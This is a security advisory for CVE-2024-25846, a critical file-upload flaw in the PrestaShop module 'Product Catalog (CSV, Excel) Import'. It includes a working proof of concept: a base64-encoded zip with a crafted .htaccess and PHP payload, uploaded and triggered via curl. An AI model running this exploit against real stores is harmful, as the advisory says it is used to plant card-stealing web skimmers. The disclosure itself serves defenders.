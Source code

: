 ```yaml
---
layout: post
title: "[CVE-2024-25846] Unrestricted Upload of File with Dangerous Type in MyPrestaModules - Product Catalog (CSV, Excel) Import module for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,simpleimportproduct"
severity: "critical (10)"
---
```


In the module "Product Catalog (CSV, Excel) Import" (simpleimportproduct) up to version 6.7.0 from MyPrestaModules for PrestaShop, a guest can upload files with extensions .php.


## Summary

* **CVE ID**: [CVE-2024-25846](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-25846)
* **Published at**: 2024-02-27
* **Platform**: PrestaShop
* **Product**: simpleimportproduct
* **Impacted release**: <= 6.7.0 (6.7.1 ""fixed"" the vulnerability - See note below)
* **Product author**: MyPrestaModules
* **Weakness**: [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
* **Severity**: critical (10)

## Description

The method `Send::__construct()` allows the upload of .zip files, which can be auto uncompress in a predictable directory, author tries to protect it with a.htaccess, but since we can forge a zip with a custom .htaccess and a PHP payload, it will lead to a critical vulnerability [CWE-94](https://cwe.mitre.org/data/definitions/94.html).

**WARNING** : Be warned that this exploit will bypass the majority of WAF (zipped payload with htaccess auto-hijacked)

Note : The author has moved its exposed ajax script which suffers a critical issue to the front controller under an unpredictable token. It remains a critical vulnerability issue with a CVSS 3.1 score [9.1/10](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H)

**Edit 2024-07-09 - WARNING** : This exploit is actively used to deploy webskimmer to massively steal credit cards. Since POC is now exploited, it is considered public.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Steal data

## Proof of concept

```bash
echo 'UEsDBBQAAAAIACmivFa0Sii9DgAAAA4AAAAJAAAALmh0YWNjZXNzS8zJyS9XSCvKz1UAMgFQSwMEFAAAAAgAoqG8Vp+ixh8WAAAAFAAAAAUAAABhLnBocLOxL8go4OVKTc7IV9AwMtQ2MtS0BgBQSwECHwAUAAAACAAporxWtEoovQ4AAAAOAAAACQAkAAAAAAAAACAAAAAAAAAALmh0YWNjZXNzCgAgAAAAAAABABgA59XXo5CR2QHn1dejkJHZAeJTwpqQkdkBUEsBAh8AFAAAAAgAoqG8Vp+ixh8WAAAAFAAAAAUAJAAAAAAAAAAgAAAANQAAAGEucGhwCgAgAAAAAAABABgA07RBDJCR2QHTtEEMkJHZAaRqZqCOkdkBUEsFBgAAAAACAAIAsgAAAG4AAAAAAA==' > tmp && base64 -d tmp > test.zip && curl -v -F "file=@test.zip" 'https://preprod.X/modules/simpleimportproduct/classes/send.php?zip_file=1&ajax=1&stepTwo=1&import_settings_name=1' && curl -v 'https://preprod.X/modules/simpleimportproduct/data/zip_files/a.php'
```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **simpleimportproduct**.
* Activate OWASP 933's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-05-28 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-05-28 | Contact PrestaShop Addons security Team to confirm version scope |
| 2023-06-01 | PrestaShop Addons security Team confirms version scope |
| 2023-11-15 | Author provide a patch |
| 2024-02-22 | Received CVE ID |
| 2024-02-27 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/fr/import-export-de-donnees/19091-catalogue-de-produits-csv-excel-dimportation.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2024-25846)
